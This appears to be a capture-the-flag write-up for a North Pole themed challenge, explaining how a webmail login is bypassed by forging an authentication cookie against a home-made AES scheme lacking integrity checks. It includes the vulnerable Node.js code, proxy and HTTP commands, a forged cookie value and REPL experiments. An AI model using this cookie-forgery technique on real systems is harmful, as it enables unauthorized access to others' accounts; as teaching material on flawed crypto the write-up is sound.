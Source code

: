 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Elf Web Access (EWA) is the preferred mailer for North Pole elves,
available internally at http://mail.northpolechristmastown.com. What
can you learn from The Great Book page found in an e-mail on that
server?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Hints:

Pepper Minstix gives us the following hints:

  1. I'm so excited for the new email system that Alabaster Snowball set up for us. He spent a lot of time working on it. Should make it very easy for us to share cookie recipes. I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
  2. The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
  3. AES256? Honestly, I don't know much about it, but Alabaster explained the basic idea and it sounded easy. During decryption, the first 16 bytes are removed and used as the initialization vector or "IV." Then the IV + the secret key are used with AES256 to decrypt the remaining bytes of the encrypted string.
  4. Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
  5. Every year when Santa gets back from delivering presents to the good girls and boys, he tells us stories about all the cookies he receives. I love everything about cookies! Cooking them, eating them, editing them, decorating them, you name it!

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

The question tells us that the page we're looking for is in an e-mail. So, we need to figure out some way to login to the mail system and find the crucial message.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

First off, let's pull up the website in our web browser. SSH can run a
SOCKS proxy for us, which we can use to tunnel our traffic through
l2s. We use the access we got in Question 2 to SSH in:

#+BEGIN_SRC sh
ssh -D 31080 alabaster_snowball@l2s.northpolechristmastown.com
#+END_SRC

I like to use Firefox for this, since, unlike Chrome, we can configure proxy settings different from the system-wide settings:

#+CAPTION: Elf Web Access
#+attr_html: :width 500px
[[./images/firefox_proxy.png]]

Now we can just navigate to http://mail.northpolechristmastown.com:

#+CAPTION: Elf Web Access
#+attr_html: :width 350px
[[./images/ewa.png]]

Luckily, we got Alabaster's password in Question 2, so let's login!

#+CAPTION: Logging in as alabaster_snowball/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_email.png]]

Of course! We need an e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_username.png]]

Luckily, the error message tells us how we need to format the e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_password.png]]

Curses! Looks like Alabaster is at least smart enough to not reuse credentials. Let's review some of the hints that Pepper gave us:

#+BEGIN_QUOTE
I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
#+END_QUOTE

We scanned this EWA system with =nmap= before, and one of the =nmap= scripts did find a reference in ~robots.txt~:

#+BEGIN_SRC 
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
#+END_SRC

Given how much Pepper harps on cookies, perhaps this file is worth investigating. When we view it, we see:

#+BEGIN_SRC javascript
//FOUND THESE FOR creating and validating cookies. Going to use this in node js
function cookie_maker(username, callback){
    var key = 'need to put any length key in here';
    //randomly generates a string of 5 characters
    var plaintext = rando_string(5)
    //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
    //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
    var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
    //Setting the values of the cookie.
    var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
    return callback(acookie);
};
function cookie_checker(req, callback){
    try{
        var key = 'need to put any length key in here';
        //Retrieving the cookie from the request headers and parsing it as JSON
        var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
        //Retrieving the cipher text 
        var ciphertext = thecookie.ciphertext;
        //Retrievingin the username
        var username = thecookie.name
        //retrieving the plaintext
        var plaintext = aes256.decrypt(key, ciphertext);
        //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
        if (plaintext === thecookie.plaintext) {
            return callback(true, username);
        } else {
            return callback(false, '');
        }
    } catch (e) {
        console.log(e);
        return callback(false, '');
    }
};
#+END_SRC

There's a lot to parse here, but given the number of times AES and IVs are mentioned in the hints, this looks like we're on the right path.

Our next hint is:

#+BEGIN_QUOTE
The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
#+END_QUOTE

Uh-oh... Coming up with your own cryptography scheme should send up all the red flags.

#+BEGIN_QUOTE
Happy families are all alike; every unhappy family is unhappy in its own way. --   Leo Tolstoy
#+END_QUOTE

#+BEGIN_QUOTE
Empty plaintext encrypted without using HMAC are all alike; Rolling your own crypto makes all cryptographers unhappy. -- Justin Azoff
#+END_QUOTE

At this point, we suspect that there's some kind of vulnerability in the cryptography being used. Reading on:

#+BEGIN_QUOTE
AES256? Honestly, I don't know much about it, but Alabaster explained
the basic idea and it sounded easy. During decryption, the first 16
bytes are removed and used as the initialization vector or "IV." Then
the IV + the secret key are used with AES256 to decrypt the remaining
bytes of the encrypted string.
#+END_QUOTE

Let's pause for a moment to review what we know so far. The e-mail application uses cookies for authentication.

#+BEGIN_SRC js
  var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), 
		 { maxAge: 86400000, httpOnly: true, encode: String }]
#+END_SRC

As we can see from the line above, the cookie contains a username,
some plaintext, and some ciphertext. The ~cookie_checker~ function
takes the encrypted ciphertext, and attempts to decrypt it with a
secret key that only the application has. If the result matches the
plaintext from the cookie, the cookie is authentic:

#+BEGIN_SRC js
var plaintext = aes256.decrypt(key, ciphertext);
//If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
if (plaintext === thecookie.plaintext) {
    return callback(true, username);
} else {
    return callback(false, '');
}
#+END_SRC

The code, as well as Pepper's hints, tell us something about the structure of the ciphertext:

#+BEGIN_SRC js
//makes the string into cipher text .... in base64. 
// When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
#+END_SRC

Finally, Pepper gives us this tantalizing hint:

#+BEGIN_QUOTE
Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
#+END_QUOTE

By reading the code closely we can see that when the application *creates* a cookie, the plaintext is 5 random characters. However, nothing in the verification logic requires this. The only check is:

#+BEGIN_SRC js
aes256.decrypt(key, ciphertext) === thecookie.plaintext
#+END_SRC

Let's see what a valid cookie looks like:

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/'
HTTP/1.1 200 OK
...
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: EWA={"name":"GUEST","plaintext":"","ciphertext":""}; Max-Age=86400; Path=/; Expires=Wed, 10 Jan 2018 23:37:29 GMT; HttpOnly
...
#+END_SRC

Let's try what Pepper Minstix suggests: setting our ciphertext to only
be 16 characters long. We know that this is base64 encoded, so we'll
run:

#+BEGIN_SRC 
$ echo -n "Security at NCSA" | base64
U2VjdXJpdHkgYXQgTkNTQQ==
#+END_SRC

We're using the =-n= flag of =echo= to not have a newline at the end, which would give us a 17 character length cookie.

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/' 
  'Cookie:EWA={"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}'
HTTP/1.1 200 OK
...
X-Powered-By: Express

<script>window.location.href='/account.html'</script>
#+END_SRC

That looks promising! Let's move from the command line back to Firefox. One easy way to edit cookies in Firefox is to go to Tools => Web Developer => Storage Inspector. We should see an =EWA= cookie in there already, and we can simply double-click the value field and paste in our forged cookie:

#+BEGIN_SRC
{"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}
#+END_SRC

Now we just reload the page, and we're in!

#+CAPTION: Logging in with our forged cookie
#+attr_html: :width 500px
[[./images/ewa_loggedin.png]]

At this point, we can start digging through Alabaster's e-mail. Soon, we find this:

#+CAPTION: Page 4 E-mail
#+attr_html: :width 500px
[[./images/page4_email.png]]

*** An Alternative Solution: Black Box Cracking

Given some of the discussion in the chat, this was one of the hardest
questions. This section goes deeper into the cookie creation and
validation code, and it offers an alternative solution. Finding
=cookie.txt= from the =robots.txt= file made this question much
easier, but this version lays out the approach to solve this question
without that file. Independently, one of our team members used the
previous solution, and one used this solution.

The Javascript code used is a variation of a challenge response
algorithm, but it is flawed in that the client is providing both the
challenge and the response.  It is also flawed in that it does not use
MAC
https://en.wikipedia.org/wiki/Authenticated_encryption#MAC-then-Encrypt_(MtE)
meaning that the encrypted contents themselves are never verified.

Since we can control both the ciphertext and the expected plaintext, we can
just set the challenge to the empty string "" and the response then just needs
to be ANY message that decrypts to "".  Since the message is empty, the key is
irrelevant, we just need to work out how to properly generate a ciphertext that
will decrypt to nothing.

A completely empty ciphertext throws an error:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.decrypt('key does not matter', '')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

A larger ciphertext works, but gives us a random string, which is not what we want.. but 
we can see that a fairly long cipher text only gives us a few bytes of plaintext...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
'F..%=X..'
#+END_SRC

The difference in the length of the two strings is 24:

#+BEGIN_SRC js
> x='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
> x.length - aes256.decrypt('key does not matter',x).length
24
#+END_SRC

From the hints, we learn that some of the bytes are used for the IV.

The AES library won't let us encrypt an empty string, but we can encrypt a single char:

#+BEGIN_SRC js
> aes256.encrypt('key does not matter', '')
TypeError: Provided "plaintext" must be a non-empty string
    at Object.encrypt (/Users/user/node_modules/aes256/index.js:39:13)
> aes256.encrypt('key does not matter', 'x')
'L7rwNMwISl2chavT6lILlNM='
> aes256.encrypt('key does not matter', 'x').length
24
#+END_SRC

This gives a ciphertext of length 24 with one byte of = for padding.  This
means that 22 bytes are used for the IV and one byte is used to encrypt the 'x'
itself.

So, at this point it is clear that something interesting happens around 22-24 chars.

Trying different lengths approaching a length of 22 continues to throw an error
for a while...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaa')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

Until the error changes:

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
> 'aaaaaaaaaaaaaaaaaaaaaa'.length
22
> aes256.decrypt('key really does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
#+END_SRC

Success!  A string of any 22 chars will decrypt to the empty string.

An alternative approach would be to edit the aes library and comment out this block:

#+BEGIN_SRC js
if (typeof plaintext !== 'string' || !plaintext) {
  throw new TypeError('Provided "plaintext" must be a non-empty string');
}
#+END_SRC

With the throw commented out, we can encrypt an empty string:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.encrypt('whatever', '')
'SStLU1QxLjmtG/Ea8hMH0Q=='
> ct=aes256.encrypt('whatever', '')
'tYcVb4PRsdq4JWl5XMSNgw=='
> aes256.decrypt('a different key entirely', ct)
''
> ct.length
24
#+END_SRC

The length is different(24 instead of 22), but only because it is padded with 2
bytes of == for base64 purposes.

*** Tool Development

We created a script, TODO LINK TO EWA SCRIPT, which will forge a
cookie to login as a user, and then dump all the e-mails as JSON. In
order to do this, we relied heavily on
http://mail.northpolechristmastown.com/js/custom.js to see how the API
worked, and duplicated portions of it in Python. This script allowed
us to archive and search e-mails, which was useful for future
questions.

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Alabaster Snowball had a vulnerability in his cookie validation code,
where he wasn't verifying the length of the decrypted text. AES will
encrypt an empty string as an empty string, so we can forge a cookie
without needing to know the key. With this forged cookie, we can login
to Alabaster's e-mail, and find an e-mail with a link to the page
we're looking for.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

If only we could crack Alabaster's password, we wouldn't need to forge
any cookies. But more on that later...

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

As previously mentioned, this seemed to be one of the most-discussed
questions in chat. We saw people trying to brute-force the AES key,
focus on the encryption of the message, or just try to bypass the web
application completely.

